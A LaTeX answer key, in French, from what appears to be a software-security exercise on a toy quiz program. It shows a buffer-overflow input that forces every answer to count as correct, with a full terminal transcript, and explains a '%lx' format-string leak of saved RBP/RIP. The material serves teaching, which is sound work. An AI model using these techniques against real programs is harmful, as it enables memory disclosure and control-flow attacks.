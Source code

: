 \documentclass[a4paper,9pt]{article}
\newenvironment{terminal}{\color{black}\begin{snugshade*}}
{\end{snugshade*}\color{black}}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item On peut faire un débordement de tampon pour fixer la valeur de $k$ (la question apparente est celle tirée aléatoirement, mais lors de la vérification, c'est le $k$ modifié qui sera utilisé). Il faut remplir le tableau \verb|asw| de 32 caractères et puis mettre un \verb|'\0'| pour avoir \verb|k=0| ou un \verb|'!'| pour avoir \verb|k=33|. Ensuite il faut repondre à la question. 
Voici un exemple d'exploit:
\begin{terminal}
\begin{verbatim}
ready? Type enter to proceed to the questions:
Who was the first president of the United States?
answer:!!!-!!!-!!!-!!!-!!!!
!!!-!!!-!!!-!!!-!!!!is not correct!the answer was : 'George Washington'
What is the capital of Japan?
answer:!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!!
!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!!is not correct!the answer was : 'Leonardo da Vinci'
What is the chemical formula for water?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the capital of Spain?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the chemical symbol for gold?
answer:Leonardo da Vinci-------------------
Yes! good answer
Do you want to play another time  ? (1=yes/0=no):
1                                   
ready? Type enter to proceed to the questions:
Which animal is known for its ability to change colors?
answer:Leonardo da Vinci-------------------
Yes! good answer
Who is known as the Father of India?
answer:Leonardo da Vinci-------------------
Yes! good answer
Which continent is the Sahara Desert located on?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the capital of Japan?
answer:Leonardo da Vinci-------------------
Yes! good answer
Which sea is the saltiest in the world?
answer:Leonardo da Vinci-------------------
Yes! good answer
Do you want to play another time  ? (1=yes/0=no):
0
Your final score is 10 
\end{verbatim}
\end{terminal}


\item Pour connaître les valeurs de SavedRIP et SavedRBP, il suffit d'utiliser 
le printf(asw), et d'insérer une chaine de format du type \verb|"%lx%lx...%lx"|, assez longue (nombre de registre + 48/8 $\sim$ 12). On voit apparaitre les code ascii \verb|25,6C,78| des caractères \verb|%lx| et à la suite on verra rbp et rip.



\end{enumerate}
\end{correction}
\end{document}
